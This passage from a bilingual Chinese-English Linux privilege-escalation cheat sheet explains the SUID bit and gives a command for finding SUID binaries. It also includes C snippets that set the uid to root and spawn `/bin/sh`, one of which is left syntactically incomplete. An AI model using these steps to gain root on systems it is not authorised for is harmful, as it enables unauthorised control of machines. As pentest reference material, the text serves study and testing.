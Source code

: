 
----

#### SUID

```shell
# SUID/Setuid代表 "执行时设置用户ID"
# 它默认情况下在每个Linux发行版中都启用.
# 如果运行某个具有这个bit位的文件,则uid将被属主owner更改掉.
# 如果这个文件属主owner为`root`, 即使是用户`bob`执行了这个文件, uid也将被更改为root.
# SUID bit 被表示为一个 `s`

# SUID/Setuid stands for "set user ID upon execution", it is enabled by default in every Linux distributions. 
# If a file with this bit is ran, the uid will be changed by the owner one.
# If the file owner is `root`, the uid will be changed to `root` even if it was executed from user `bob`.
# SUID bit is represented by an `s`.


╭─swissky@lab ~  
╰─$ ls /usr/bin/sudo -alh
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/sudo
```


##### Find SUID binaries

```shell
# 寻找已有的 SUID二进制程序

find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;

# 如结果 可见s
-rwsr-xr-x. 1 root root 36280 11月  6 2016 /usr/sbin/unix_chkpwd
-rwsr-xr-x. 1 root root 11296 11月  6 2016 /usr/sbin/usernetctl
-rws--x--x. 1 root root 40312 6月  10 2014 /usr/sbin/userhelper
-rwsr-xr-x. 1 root root 11224 11月  6 2016 /usr/sbin/pam_timestamp_check
-rwsr-xr-x. 1 root root 78216 11月  6 2016 /usr/bin/gpasswd
-rwsr-xr-x. 1 root root 44232 11月  6 2016 /usr/bin/mount
-rwsr-xr-x. 1 root root 27832 6月  10 2014 /usr/bin/passwd
...
```


##### Create a SUID binary

```shell
# 创建一个 SUID二进制程序的过程

# 1. 写c源代码文件 suid.c

# 程序(1)亲测提权失败
int main(void){
setresuid(0, 0, 0);
system("/bin/sh");

# 程序(2)亲测提权成功
int main()
{
    setgid(0);
    setuid(0);
    system("/bin/sh");
}

# 2. 编译出二进制程序 suid
gcc -o /tmp/suid /tmp/suid.c
```
